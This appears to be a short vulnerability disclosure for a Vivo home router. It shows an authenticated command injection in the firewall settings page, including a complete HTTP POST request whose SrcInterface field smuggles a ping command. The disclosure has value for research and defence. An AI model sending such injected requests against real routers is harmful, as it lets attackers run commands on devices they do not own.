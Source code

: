 # Vivo Code Execution Firewall

Vivo brazilian router is vulnerable to a authenticated remote code execution in the firewall settings page.<br>
The "SrcInterface" was tested and it is vulnerable.<br>
It is possible to run a ping command in the router.<br>
Run tcpdump in the other end and see the packets being received.<br>

POST /cgi-bin/settings-firewall.cgi HTTP/1.1<br>
Host: 192.168.15.1<br>
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:129.0) Gecko/20100101 Firefox/129.0<br>
Accept: text/html, */*; q=0.01<br>
Accept-Language: pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3<br>
Accept-Encoding: gzip, deflate, br<br>
Content-Type: application/x-www-form-urlencoded<br>
X-Requested-With: XMLHttpRequest<br>
Content-Length: 273<br>
Origin: http://192.168.15.1<br>
Connection: keep-alive<br>
Referer: http://192.168.15.1/cgi-bin/settings-firewall.cgi<br>
Cookie: COOKIE_SESSION_KEY=8cc78d1a049bbc63f372d8cfec6886d1<br>
Priority: u=0<br>

editflag=1&editIndex=0&Order=1&RuleName=teste&Protocol=TCP&IcmpType=&Icmpv6Type=&IPVersion=4&SrcInterface=br0;ping 192.168.15.123;&Target=Accept&ActionValue=Local&LocalPort=80&LocalPortRangeMax=&LocalIP=192.168.15.1&RemotePort=80&RemotePortRangeMax=&LocalMask=&RemoteMask=&RemoteIP=192.168.15.2<br><br>

![9c64e2bf6c0643d5a3ca768dd3e1a5bb](https://github.com/user-attachments/assets/e7ce2102-72e6-44af-9eac-0b530b3cfd4e)


![6d1f04268c754ba182bfabfb1c85fb35](https://github.com/user-attachments/assets/84d68d95-92cb-4db8-a8b4-1ce31aedbfef)
